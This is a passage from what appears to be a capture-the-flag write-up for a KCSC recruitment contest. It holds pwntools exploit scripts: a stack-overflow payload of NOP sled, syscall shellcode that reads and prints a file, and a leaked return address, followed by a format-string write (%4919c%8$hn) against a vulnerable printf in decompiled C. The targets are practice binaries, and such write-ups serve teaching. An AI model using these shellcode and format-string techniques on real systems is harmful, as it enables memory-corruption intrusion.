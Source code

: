 ```python
         mov rax,0x101
         syscall
         mov rdi,rax
         xor rax,rax
         mov rdx,0x50
         mov rsi,rsp
         syscall
         mov rdi,1
         mov rax,1
         syscall
         ''')

p.recvuntil(b'mylib.dll ')
stack = int(p.recvuntil(b':')[:-1],16)
p.recvuntil(b'TestStackTrace ')
log.info(f'stack: {hex(stack)}')

payload = b'\x90' * (0x400-len(sc))
payload += sc
payload += p64(0) + p64(stack)
input()
p.send(payload)

p.interactive()
```

## welcome 

- 1 bài fsb warmup

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [rsp+0h] [rbp-40h] BYREF

  setup(argc, argv, envp);
  puts("Welcome to KCSC Recruitment !");
  printf("What's your name?\n> ");
  fgets(s, 64, stdin);
  printf("Hi ");
  printf(s);
  if ( key == 4919 )
    win();
  return 0;
}
```

exp: 

```python
#!/usr/bin/python3

from pwn import *


context.binary = exe = ELF('./chall',checksec=False)
context.arch = 'amd64'

p = process()

key = 0x000000000040408C

payload = f'%{4919}c%8$hn'.encode()
payload = payload.ljust(16,b'a')
payload += p64(key)
```